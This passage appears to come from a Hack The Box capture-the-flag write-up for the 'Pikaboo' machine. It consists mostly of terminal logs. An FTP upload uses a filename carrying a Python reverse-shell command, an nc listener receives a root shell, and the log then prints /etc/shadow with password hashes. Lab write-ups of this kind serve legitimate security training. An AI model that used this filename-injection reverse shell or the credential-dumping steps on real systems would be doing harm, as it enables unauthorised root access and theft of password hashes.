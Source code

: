 ```bash
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): pwnmeow
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd versions
250 Directory successfully changed.
ftp> put oops "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"<YOUR IP>\",<PORT>));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"sh\")';.csv"
local: oops remote: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<YOUR IP>",<PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")';.csv
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp>
```
After uploading file please wait for sometime as it can take a while.
```bash
kali@kali:~/HackTheBox/Pikaboo$ rlwrap nc -nlvp <PORT>
listening on [any] 12345 ...
connect to [<--SNIP-->] from (UNKNOWN) [<--SNIP-->] 46436
id 
id 

uid=0(root) gid=0(root) groups=0(root)

cat /etc/shadow
cat /etc/shadow

root:$6$rmBpCrNSohpbrXpW$6XizSEcAl0ELQH28F21.V0cvZgWCNkatRbXCv5WNlIW2mkhECPM7wm1j.BRD.t7.Z5CQPvu19EGORXbpOnb540:18816:0:99999:7:::
daemon:*:18757:0:99999:7:::
bin:*:18757:0:99999:7:::
sys:*:18757:0:99999:7:::
sync:*:18757:0:99999:7:::
games:*:18757:0:99999:7:::
man:*:18757:0:99999:7:::
lp:*:18757:0:99999:7:::
mail:*:18757:0:99999:7:::
news:*:18757:0:99999:7:::
uucp:*:18757:0:99999:7:::
proxy:*:18757:0:99999:7:::
www-data:*:18757:0:99999:7:::
backup:*:18757:0:99999:7:::
list:*:18757:0:99999:7:::
irc:*:18757:0:99999:7:::
gnats:*:18757:0:99999:7:::
nobody:*:18757:0:99999:7:::
_apt:*:18757:0:99999:7:::
systemd-timesync:*:18757:0:99999:7:::
systemd-network:*:18757:0:99999:7:::
systemd-resolve:*:18757:0:99999:7:::
messagebus:*:18757:0:99999:7:::
pwnmeow:$6$H5CffbR.b9evmTUv$s.KtcDNAburm1TyaSt2hNwrciq/yPQ0/g6KmeJr4hj1SBN.ddDNuNcPJXY.H0Y.DoRVov0Z0wfXJ0OmvHAAeC/:18816:0:99999:7:::
systemd-coredump:!!:18757::::::
openldap:!:18757:0:99999:7:::
sshd:*:18757:0:99999:7:::
nslcd:*:18757:0:99999:7:::
ftp:*:18757:0:99999:7:::
redis:*:18766:0:99999:7:::
```